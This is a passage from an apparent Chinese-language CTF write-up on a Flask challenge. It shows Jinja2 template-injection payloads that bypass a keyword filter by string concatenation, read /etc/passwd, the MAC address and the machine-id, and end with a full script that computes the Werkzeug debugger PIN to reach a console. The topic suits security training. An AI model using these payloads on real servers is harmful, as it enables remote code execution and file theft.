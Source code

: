 这里`{{config}}`可以读取，但是`os` `*` `popen`等被过滤。其他像`_'"[]`等倒是还在。其实不难理解，过滤*是`{{7*7}}`这样的payload太常见，过滤os和popen是因为不过滤的话都不需要用PIN码。

我们只需要读取文件获得计算PIN码所需即可。

`{{''.__class__.__base__[0].__subclasses__()[xxx]}}`

这里一般找两个，一个是warnings.catch_warnings,索引一般是102;一个是os._wrap_close，索引一般是75.

找到后最通用的payload就是利用`__builtins__`,通用好记

要列目录的话可以利用import导入os模块，过滤可以字符串拼接绕过：

`{{().__class__.__bases__[0].__subclasses__()[102].__init__.__globals__.__builtins__['__imp'+'ort__']('o'+'s').listdir('/')}}`

根目录有一个this_is_the_flag.txt，因为过滤flag无法读，我们要利用pin码的控制台。

（其实可以`open('txt.galf_eht_si_siht/'[::-1])`或者`open('this_is_the_f'+'lag.txt')`绕过过滤）

这里是没有导入好的os，所以我们需要手动导入。查看/etc/passwd:

`{{().__class__.__bases__[0].__subclasses__()[102].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`

用户是` flaskweb:x:1000:1000::/home/flaskweb:/bin/sh`

然后读`/sys/class/net/eth0/address`，是`ea:ba:1f:79:e0:16`

接着读`/etc/machine-id`,是`1408f836b0ca514d796cbf8960e45fa1`

下面给出最后的脚本，因为是python3.7，werkzeug也是低版本所以用md5：

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'flaskweb',#服务器运行flask所登录的用户名
    'flask.app',#modname
    'Flask',#getattr(app, "\_\_name__", app.\_\_class__.\_\_name__)
    '/usr/local/lib/python3.7/site-packages/flask/app.py',#flask库下app.py的绝对路径
]
private_bits = [
    '77970377601958',#当前网络的mac地址的十进制数
    '1408f836b0ca514d796cbf8960e45fa1'#机器的id
]
"""1408f836b0ca514d796cbf8960e45fa1"""
"""a783d0b9-308a-4743-9d3c-915598e38fbe"""
"""docker-b064f6b61584824a4204fcca5a8accc603545e547afa11904cf93c119fae43b8.scope"""

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
cookie_name = '__wzd' + h.hexdigest()[:20]
num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]
rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
```